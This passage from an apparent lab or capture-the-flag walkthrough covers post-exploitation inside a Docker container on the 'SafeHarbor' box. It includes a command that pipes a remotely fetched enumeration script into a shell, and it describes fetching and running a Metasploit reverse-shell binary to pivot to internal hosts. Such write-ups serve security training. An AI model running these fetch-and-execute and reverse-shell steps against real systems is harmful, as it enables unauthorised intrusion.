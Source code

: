 Ok so now that a real shell has been achieved, let's do some post-exploitation enum. Buckle up your seatbelts because now we have really started the box. Start out simple with LinEnum.sh and look for anything interesting. Seems we have a weird shell in addition to this, so we have to keep in mind that any scripts we want to run will need to be done with "ash". On the docker container we'll run the following rather than copying scripts over:

```bash
curl http://200.0.12.102/linenum.sh | ash
```

Once this completes, we'll see in bright gold letters "[+] Looks like we're in a Docker container" and unfortunately www-data is not part of the docker group, so it seems we are quite limited in what we can do from here. Something in the networking section stands out though...

# Container 1 - Post-Exploitation

![screenshot](/assets/images/safeharbor/container1_networking.PNG)

There are a number of other hosts we can go after! A few of these look like they are probably copies of the current container we're in, so we will ignore those. We see there is a host called "harborbank_mysql_1". Let's add this to our list of things to continue enumerating, but we also need to find out if there are any other containers we can go after. To do this we'll need to drop a metasploit linux binary to help us pivot into the internal network. To make life easier (and as a shameful self-plug) we'll use the revshellgen.py script from my [github](https://github.com/m0rph-1/revshellgen). Revshellgen can generate a variety of reverse shell commands, and can make life easier if you don't have internet access for your current test or you are lazy like me and don't feel like googling what you need. 

![screenshot](/assets/images/safeharbor/revshell_bin.PNG)

Now that we have our binary created, we need to wget it to the container, give it executable permissions, and execute it:

![screenshot](/assets/images/safeharbor/revshell_wget.PNG)
